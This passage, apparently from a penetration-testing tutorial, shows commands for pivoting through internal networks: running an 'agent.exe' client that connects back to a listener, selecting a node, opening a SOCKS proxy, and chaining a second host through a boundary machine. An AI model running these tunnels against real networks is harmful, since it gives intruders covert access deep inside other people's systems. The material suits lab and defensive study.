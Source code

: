 ```bash
agent.exe -rhost 192.168.168.71 -rport 9999
```

- Then execute the command to proxy the traffic to the `7777` port

```bash
show # View node
goto 1 # Select a node
socks 7777 # Set up the proxy
```

![](img/23.png)

![](img/24.png)

#### Multi-level network environment

​ At this time, on the basis of the previous layer, let the node listen on the attack machine, that is, wait for the connection of the `Win2` host on the boundary host:

```bash
listen 9998
```

​ Execute the following command on the `Win2` host to connect to the boundary host:

```bash
agent.exe -rhost 10.32.129.5 -rport 9998
```
